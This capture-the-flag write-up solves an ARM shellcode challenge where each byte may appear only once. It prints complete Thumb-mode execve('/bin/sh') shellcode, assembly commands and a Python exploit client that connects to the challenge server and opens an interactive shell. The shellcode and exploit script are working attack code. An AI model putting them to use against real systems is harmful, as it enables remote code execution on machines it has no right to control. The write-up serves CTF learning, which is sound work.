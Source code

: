 RAM
===
Description:

>	Hree is a ctue lttile selhlcdoe challenge (old version).
>
>	Server: 52.4.108.221 port 4444

We are given a python script which seems to be running on the server side which
builds a map of all bytes from 0 to 255 and shuffles them around according to a
permutation sequence supplied by the user.
The resulting permuted buffer is then written into an ELF file which gets executed
on an ARM machine.

The goal is to supply a permutation sequence which leads to executable code which
when executed leads to a shell. The crux is, that the shellcode can only contain
each byte one time.

So, we took the usual execve("/bin/sh", NULL, NULL) shellcode and crafted it in
a way that each byte only occurs one time in the resulting binary.

```
.section .text
.global _start
_start:

.code 32
    add    r5, pc, #1
    bx     r5

.bar:
.code 16
    add    r5, #.foo-.bar-1
    ldmia  r5!, {r1-r3}
    add    r1, #3
    sub    r2, #8
    push   {r1-r2}
    mov    r5, sp

    sub    r1, r1, r1
    add    r0, r1, r5
    eor    r2, r2, r2
    mov    r7, #11
    svc    124

    .byte 123
.foo:
.ascii ",bin7sh\x00"
```

The first two lines switch to thumb mode if we are not already in this mode.
This leads to smaller code with mostly 16 bit wide opcodes which makes it easier
for us to make sure each byte only shows up one time in the result.

After that we get the address of our string in r5 and load it into registers r1
to r3 with the following ldmia-instruction. r1 and r2 would suffice here, but we
would end up with duplicate bytes in the result, so we load one more register here
and just don't use the result.

After that, we correct the string by adding 3 to r1 which converts the comma in
the string to a forward slash and we subtract 8 from the second half of the string
to convert the 7 also into a forward slash. Now we can push the correct "/bin/sh"
string back to the stack and get its address into r5.

Next we clear r1 by subtracting it from itself, we move r5 into r0 and clear r2.
These three registers contain the arguments to the syscalls which numer (11) we
load into register r7 in the next instruction. Now, we are ready to invoke
the syscall using the svc instruction. The argument for this instruction is
arbitrarily chosen so that it doesn't collide with other byte values. The same
holds for the following filler-byte which is needed to align the string be loaded
into registers.


We can assemble the code and create a binary file using the following commands
```
arm-linux-gnueabi-as -o shell.o shell.S
arm-linux-gnueabi-ld -o shell shell.o
arm-linux-gnueabi-objcopy -O binary shell.o shell.bin
```

Running a small script on the resulting .bin-file indeed confirms, that each
byte only occurs once:

```python
#!/usr/bin/env python

from collections import Counter

code = open("shell.bin", "r").read()
code = map(ord, code)

print Counter(code)
```

Next, we built a script which created a permutation sequence given the binary
file, sends it over to the remote side and lets us interact with the spawned
shell:

```python
#!/usr/bin/env python2

import socket

HOST = "52.4.108.221"
PORT = 4444

wanted = open("shell.bin").read()[:-1]


current = map(chr, xrange(256))

perms = []
for i, c in enumerate(wanted):
	j = current.index(c)
	assert(j >= i)
	current[i], current[j] = current[j], current[i]
	perms += [i,j]
assert("".join(current).startswith(wanted))
perms = "".join(map(chr, perms))
s=socket.socket()
s.connect((HOST, PORT))
s.sendall(perms)

import telnetlib
t = telnetlib.Telnet()
t.sock = s
t.interact()

```
